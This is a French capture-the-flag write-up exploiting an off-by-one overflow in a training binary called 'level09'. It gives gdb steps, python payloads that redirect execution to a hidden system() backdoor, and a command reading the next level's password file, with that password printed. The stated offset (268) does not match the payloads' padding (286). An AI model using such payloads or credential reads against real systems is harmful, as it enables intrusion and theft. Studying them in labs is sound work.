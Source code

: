 Ce binaire s'apparente a un systeme de chat. 
En premier, il demande un username, puis, un message a envoyer. 
Le probleme se trouve dans la fonction "set_username". Dans la structure "save" un buffer
de 40 bytes est prevu pour stocker le username. Or, dans le fonction set_username, une sorte
de strcpy manuel est effectue :
    
      i = 0;
      while (i <= 40 && buf[i] != '\0')
      {
        save->username[i] = buf[i];
        i++;
      }
      
Le probleme est qu'il va y avoir 41 iterations et non 40 ! Nous allons donc pouvoir deborder
sur la variable se trouvant apres username[40] dans la structure save. En l'occurence, "length". 
Cette variable length est utilise pour la fonction "set_msg". En effet, un strncpy est effectue :

        strncpy(save->msg, buf, save->length);

"buf" contient le message rentre par l'utilisateur. Les caracteres dans ce dernier seront copies autant
de fois que la valeur de length. Cependant, nous pouvons maintenant agrandir cette valeur length.
Dans la mesure ou nous pouvons reecrire un byte de plus que prevu, cela signifie que nous pouvons 
passer au maximum 255 a la variable length. 

Une fonction cachee rentre egalement en jeu. la fonction "secret_backdoor", qui execute la commande que nous lui passerons, via system().

Il nous faut donc son adresse :

    $ gdb level09
    $ start
    $ p &secret_backdoor
    => 0x55555555488c
    
Puis trouver l'offset necessaire a l'overwrite de EIP pour y ecrire l'adresse de secret_backdoor.

    python -c "print('A'*40 + '\xce' + 'A'*286 + 'B'*8 )" > /tmp/x

    Program received signal SIGSEGV, Segmentation fault.
    0x424242424242 in ?? ()
    
L'offset est de 268 si on utilise la valeur `\xce` (206) dans length.

Voici notre payload final :

    python -c "print('A'*40 + '\xce' + 'A'*286 + '\x8c\x48\x55\x55\x55\x55')" > /tmp/x
    cat /tmp/x - | ./level09
    
    $ whoami
    end
    $ cat /home/users/end/.pass
    j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

